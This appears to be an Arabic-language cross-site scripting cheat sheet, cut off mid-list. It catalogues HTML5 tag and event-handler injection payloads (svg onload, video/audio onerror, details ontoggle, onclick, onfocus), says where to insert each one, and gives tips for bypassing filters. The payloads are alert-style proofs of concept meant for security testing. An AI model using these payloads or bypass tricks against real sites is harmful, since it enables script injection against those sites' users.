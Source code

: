 #### أ. وسوم HTML5 مع أحداث تلقائية
{ #XSS--ALL--Event--Payload / #XSS_Idea_for_SVG_tag / #XSS_unique_tags  }
استخدام وسوم HTML5 مع أحداث تُنفذ تلقائيًا (مثل `onload`، `onerror`).
- **الحقن**: `<svg onload=alert('XSS')>`
  - **الإدخال**: أدخل في حقل تعليق: `<svg onload=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل عنصر SVG.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<script>`.
- **الحقن**: `<svg onload=alert(document.domain)>`
  - **الإدخال**: `https://example.com/search?query=<svg onload=alert(document.domain)>`
  - **كيف يعمل**: يعرض النطاق عند تحميل SVG.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<svg onload=console.log('XSS')>`
  - **الإدخال**: أدخل في نموذج: `<svg onload=console.log('XSS')>`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم عند تحميل SVG.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون تنبيه.
- **الحقن**: `<video poster=x onerror=alert('XSS')>`
  - **الإدخال**: أدخل في حقل: `<video poster=x onerror=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند فشل تحميل صورة الفيديو.
  - **متى يُستخدم؟**: لاختبار وسوم الوسائط.
- **الحقن**: `<video><source src=x onerror=alert(1)></video>`
  - **الإدخال**: أدخل في تعليق: `<video><source src=x onerror=alert(1)></video>`
  - **كيف يعمل**: يُنفذ التنبيه عند فشل تحميل مصدر الفيديو.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<img>`.
- **الحقن**: `<audio src=x onerror=alert('XSS')>`
  - **الإدخال**: `https://example.com/search?query=<audio src=x onerror=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند فشل تحميل الصوت.
  - **متى يُستخدم؟**: لاختبار وسوم الصوت.
- **الحقن**: `<canvas id=c><script>document.getElementById('c').getContext('2d').fillText('XSS',10,50);alert('XSS')</script>`
  - **الإدخال**: أدخل في نموذج: `<canvas id=c><script>document.getElementById('c').getContext('2d').fillText('XSS',10,50);alert('XSS')</script>`
  - **كيف يعمل**: يرسم نص "XSS" على قماش ويُنفذ تنبيه.
  - **متى يُستخدم؟**: لاختبار وسوم الرسم.
- **الحقن**: `<details open ontoggle=alert('XSS')>`
  - **الإدخال**: أدخل في حقل: `<details open ontoggle=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند فتح/إغلاق العنصر.
  - **متى يُستخدم؟**: لاختبار وسوم HTML5 التفاعلية.
- **الحقن**: `<meter value=2 min=0 max=10 onload=alert(1)>2/10</meter>`
  - **الإدخال**: أدخل في تعليق: `<meter value=2 min=0 max=10 onload=alert(1)>2/10</meter>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل عنصر المقياس.
  - **متى يُستخدم؟**: لاختبار وسوم غير شائعة.
- **الحقن**: `<progress value=50 max=100 onload=alert('XSS')>50%</progress>`
  - **الإدخال**: `https://example.com/search?query=<progress value=50 max=100 onload=alert('XSS')>50%</progress>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل شريط التقدم.
  - **متى يُستخدم؟**: لاختبار وسوم التقدم.

#### ب. أحداث تفاعلية
{ #XSS_unique_tags / #XSS--ALL--Event--Payload / }
استخدام أحداث تتطلب تفاعل المستخدم (مثل النقر أو التمرير).
- **الحقن**: `<div onclick=alert('XSS')>اضغط هنا</div>`
  - **الإدخال**: أدخل في حقل تعليق: `<div onclick=alert('XSS')>اضغط هنا</div>`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر على العنصر.
  - **متى يُستخدم؟**: في التطبيقات التفاعلية.
- **الحقن**: `<div onmouseover=alert(1)>مرر هنا</div>`
  - **الإدخال**: أدخل في نموذج: `<div onmouseover=alert(1)>مرر هنا</div>`
  - **كيف يعمل**: يُنفذ التنبيه عند تمرير المؤشر.
  - **متى يُستخدم؟**: لاختبار أحداث الحركة.
- **الحقن**: `<input autofocus onfocus=alert('XSS')>`
  - **الإدخال**: `https://example.com/search?query=<input autofocus onfocus=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند تركيز المؤشر على الحقل.
  - **متى يُستخدم؟**: في النماذج التفاعلية.
- **الحقن**: `<button onclick=alert(1)>اضغط</button>`